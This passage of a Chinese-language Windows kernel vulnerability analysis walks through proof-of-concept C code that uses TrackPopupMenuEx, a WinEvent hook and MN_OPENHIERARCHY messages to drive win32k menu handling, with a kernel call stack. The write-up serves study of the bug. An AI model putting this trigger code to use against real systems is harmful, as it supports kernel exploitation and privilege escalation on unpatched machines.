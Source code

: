 接下来通过调用 `TrackPopupMenuEx` 函数触发作为根菜单的第一个菜单对象在屏幕中的显示；然后使用 `GetMessage` 使当前线程进入消息循环状态。

```
TrackPopupMenuEx(hMenuList[0], 0, 0, 0, hWindowMain, NULL);

MSG msg = `{` 0 `}`;
while (GetMessageW(&amp;msg, NULL, 0, 0))
`{`
    TranslateMessage(&amp;msg);
    DispatchMessageW(&amp;msg);
`}`
```

当用户进程调用函数 `TrackPopupMenuEx` 时，系统在内核中最终调用到 `xxxTrackPopupMenuEx` 函数处理弹出菜单操作。在显示任务执行完成时，函数调用 `xxxWindowEvent` 以分发 `EVENT_SYSTEM_MENUPOPUPSTART` 类型的事件通知，这表示目标菜单对象已显示在屏幕中。

[![](https://p5.ssl.qhimg.com/t016b90538a111007ea.png)](https://p5.ssl.qhimg.com/t016b90538a111007ea.png)

在该事件通知分发后，执行流会进入验证代码自定义的事件通知处理程序 `xxWindowEventProc` 中。在处理程序中进行计数，并存储每次进入时的窗口句柄 `hwnd` 参数。接着通过调用函数 `SendMessage` 和 `PostMessage` 向句柄参数 `hwnd` 指向的菜单窗口对象发送消息来模拟通过键鼠选择菜单项的操作。

```
VOID CALLBACK
xxWindowEventProc(
    HWINEVENTHOOK hWinEventHook,
    DWORD         event,
    HWND          hwnd,
    LONG          idObject,
    LONG          idChild,
    DWORD         idEventThread,
    DWORD         dwmsEventTime
)
`{`
    static UINT iCount = 0;
    if (iCount &lt; ARRAYSIZE(hwndMenuList))
    `{`
        hwndMenuList[iCount] = hwnd;
        iCount++;
    `}`
    SendMessageW(hwnd, MN_SELECTITEM, 0, 0);
    SendMessageW(hwnd, MN_SELECTFIRSTVALIDITEM, 0, 0);
    PostMessageW(hwnd, MN_OPENHIERARCHY, 0, 0);
`}`
```

向模态菜单窗口对象异步地发送 `MN_OPENHIERARCHY` 将使消息被插入线程的消息队列中，并在函数 `xxTrackPopupMenuEx` 稍后调用的函数 `xxxMNLoop` 消息循环中处理打开菜单的消息请求。

```
# ChildEBP RetAddr
00 99723a78 947dee9d win32k!xxxMNOpenHierarchy
01 99723ac4 9474ae67 win32k!xxxMenuWindowProc+0xb1f
02 99723af4 947d8c36 win32k!xxxDispatchMessage+0x1f7
03 99723b38 947df8f1 win32k!xxxMNLoop+0x2dd
04 99723ba0 947df9dc win32k!xxxTrackPopupMenuEx+0x5cd
05 99723c14 83e591ea win32k!NtUserTrackPopupMenuEx+0xc3
```
